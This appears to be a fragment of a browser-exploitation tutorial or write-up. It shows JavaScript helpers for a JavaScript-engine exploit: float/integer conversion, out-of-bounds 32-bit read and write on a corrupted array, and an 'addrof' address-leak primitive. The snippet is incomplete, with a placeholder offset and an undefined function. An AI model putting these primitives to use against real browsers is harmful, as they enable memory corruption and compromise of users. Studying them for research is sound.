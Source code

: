 ```js
})
```

```js
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);

function itof(i) {
    int_view[0] = i
    return float_view[0]
}

function ftoi(f) {
    float_view[0] = f
    return int_view[0]
}

function lo(x) {
    return x & BigInt(0xffffffff)
}

function hi(x) {
    return (x >> 32n) & BigInt(0xffffffff)
}

function hex(i) {
    return "0x" + i.toString(16)
}

function oob_read32(offset) {
    // convert from uint32 indexing to uin64 indexing
    let val = ftoi(oob_arr[offset >> 1])
    if (offset % 2 == 0) {
        return lo(val)
    }
    return hi(val)
}

function oob_write32(offset, val) {
    // convert from uint32 indexing to uin64 indexing
    let temp = ftoi(oob_arr[offset >> 1])
    let new_val;
    if (offset % 2 == 0) {
        new_val = itof((hi(temp) << 32n) | val)
    } else {
        new_val = itof(val << 32n | lo(temp))
    }
    oob_arr[offset >> 1] = new_val
}

const OBJ_LEAKER_OFFSET = ??
function addrof(o) {
    obj_leaker[0] = o  // assign our target object to `obj_leaker`
    let addr = caged_oob_read32(OBJ_LEAKER_OFFSET)  // read it using `oob_arr`
    return addr
}
```
